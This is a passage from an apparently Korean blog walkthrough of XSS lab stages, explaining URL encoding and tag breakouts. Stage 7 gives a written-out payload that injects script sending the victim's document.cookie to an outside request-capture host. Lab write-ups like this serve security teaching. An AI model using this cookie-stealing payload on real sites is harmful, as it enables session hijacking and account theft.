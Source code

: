 고민을 해보다 `+`를 url encoding하면 나오는 `%2B`를 넣어서 보내보았더니 성공이다!

오잉? **URL enconding이란?**

URL은 ASCII 문자 집합을 사용하여 인터넷을 통해서만 전송할 수 있게 만들어졌습니다.
그래서 외부의 문자를 포함할 때, ASCII 형식으로 변한이 되어야지 입력이 됩니다.

**URL encoding은 외부 문자가 ASCII 형식으로 변환되는 것을 의미해요.**


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_06.png)

근데 URL encoding이 왜 사용이 되는가..?
2가지때문에 사용이 된다고 합니다!

1. URL encoding이 사용되는 이유는 앞서 설명했듯이 URL이 ASCII로 구성되어있어서 정의되지 않은 문자열은 URL에 포함될 수 없기 때문이죠!
2. URL 내에서 의미를 가진 문자(%,?,#)나 url에는 공백이 있을 수 없기 때문에 %20으로 변환한다든지 system에서 해석이 될 수 있는 문자(<.>)를 치환하여 야기 될 수 있는 문제점을 예방할 수 있습니다.

> [url에서 문제가 될 수 있는 문자들](https://bluestarblogkr.blogspot.com/2011/10/url-encoding.html)



------



### 2-3. Stage 4 - close tag



```
<a href='/q=XSS'>Link</a>
```

위는 stage 4의 페이지소스입니다.

실행되어야 하는 스크립트 위치가 태그 안이라서 실행이 되지 않습니다. 이러한 경우는 태그 밖으로 스크립트 위치를 빼줘야겠죠!


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_07.png)

그럼 이렇게 해결을 할 수 있습니다. `<a>,<textarea>,<xmp>` 등등도 태그를 끝내고 스크립트를 추가해주면 됩니다.



------



### 2-4. Stage 7 - input focus



```
<input type="text" value="XSS">
```

페이지 소스를 보면 저렇게 되어있다. input 안에 q=‘내용’이 들어가게 됩니다.

그 전에처럼 아래와 같이 넣으면,

```
?q="><script>location.href='https://requestb.in/13kpne51?'%2Bdocument.cookie</script>
<input type="text" value=""&gt;&lt;script&gt;location.href=&#39;https://requestb.in/13kpne51?&#39;+document.cookie&lt;/script&gt;">
```
